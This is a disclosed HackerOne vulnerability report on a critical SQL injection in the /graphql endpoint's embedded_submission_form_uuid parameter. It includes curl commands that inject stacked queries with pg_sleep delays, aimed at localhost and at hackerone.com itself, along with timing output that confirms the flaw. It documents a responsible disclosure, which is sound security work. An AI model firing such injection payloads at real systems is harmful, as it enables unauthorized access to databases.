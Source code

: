# SQL injection in GraphQL endpoint through embedded_submission_form_uuid parameter

## Report Details
- **Report ID**: 435066
- **URL**: https://hackerone.com/reports/435066
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-11-06T16:52:08.233Z
- **Disclosed**: 2018-11-30T01:26:39.932Z

## Reporter
- **Username**: jobert
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
The `embedded_submission_form_uuid` parameter in the `/graphql` endpoint is vulnerable to a SQL injection. Execute the following command to reproduce the behavior:

**Locally**:
```
curl -X POST http://localhost:8080/graphql\?embedded_submission_form_uuid\=1%27%3BSELECT%201%3BSELECT%20pg_sleep\(30\)%3B--%27
```

**HackerOne.com**
```
curl -X POST https://hackerone.com/graphql\?embedded_submission_form_uuid\=1%27%3BSELECT%201%3BSELECT%20pg_sleep\(30\)%3B--%27
```

**Additional proof**
```
$ time curl -X POST https://hackerone.com/graphql\?embedded_submission_form_uuid\=1%27%3BSELECT%201%3BSELECT%20pg_sleep\(5\)%3B--%27
{}curl -X POST   0.03s user 0.01s system 0% cpu 5.726 total
$ time curl -X POST https://hackerone.com/graphql\?embedded_submission_form_uuid\=1%27%3BSELECT%201%3BSELECT%20pg_sleep\(1\)%3B--%27
{}curl -X POST   0.03s user 0.01s system 2% cpu 1.631 total
$ time curl -X POST https://hackerone.com/graphql\?embedded_submission_form_uuid\=1%27%3BSELECT%201%3BSELECT%20pg_sleep\(10\)%3B--%27
{}curl -X POST   0.02s user 0.01s system 0% cpu 10.557 total
```

## Impact

The SQL injections seems to be executing in the context of the `secure` schema, so impact is currently unknown. However, since an attacker may be able to switch schemas, we should consider this to have a high impact on confidentiality.

## Attachments
No attachments
